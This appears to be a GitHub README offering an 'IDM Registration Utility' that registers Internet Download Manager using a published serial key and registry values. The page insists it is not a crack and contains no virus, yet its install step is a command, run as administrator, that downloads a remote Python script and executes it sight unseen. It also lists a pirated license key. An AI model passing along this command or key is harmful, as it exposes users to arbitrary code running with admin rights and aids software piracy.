 <h1 style="margin-left: 20px;">IDM Registration Utility (idman641, Build 18, Latest Version)</h1>

Welcome to my repository! This IDM is not crack or unoffcial vertion, it just register IDM with valid key which has been purchased !
Crack and Unoficial vertion contains Virus and trojans, you can download official IDM and register it via this py script.
<img src="https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/idm.png" alt="IDM Logo" width="20" height="18">
## Additional Resources
- If you have any concerns about the IDM Utility, you can use [VirusTotal](https://www.virustotal.com) to scan the executable file for peace of mind. 
<br>
Herse the Report <br>
<a href="https://www.virustotal.com/gui/file/6ee0630168046a59382c17cc230cf667853858b6a1fc848b3dd118869f729cdf" target="_blank">
  <img src="https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/Virustotal_logo_pixelalign.png" alt="IDM Logo" width="200" height="60">
</a>


You can find resources in resources folder.


## Screenshots
Here's a screenshot of what the Registerd IDM looks like:
![IDM Screenshot](https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/image.png)

## How to Use
1. Install Pythion on your device.
2. Copy this command, and past it on cmd (Administration required)
```python
C:\Windows\py.exe -m pip install requests && C:\Windows\py.exe -c "import urllib.request, requests; exec(urllib.request.urlopen('https://raw.githubusercontent.com/musaalif6969/IDM-Registration-Utility/main/main.py').read().decode())"

```
3.Your good to go !

---

## Additional Info


```ini
; First Name
[FName]="Musa"

; Installation Status
[InstallStatus]=dword:00000003

; Last Name
[LName]="Alif"

; Email Address
[Email]="info@tonec.com"

; Serial Key
[Serial]="HE3TB-8J3SY-FP9SC-6RKR2"
```
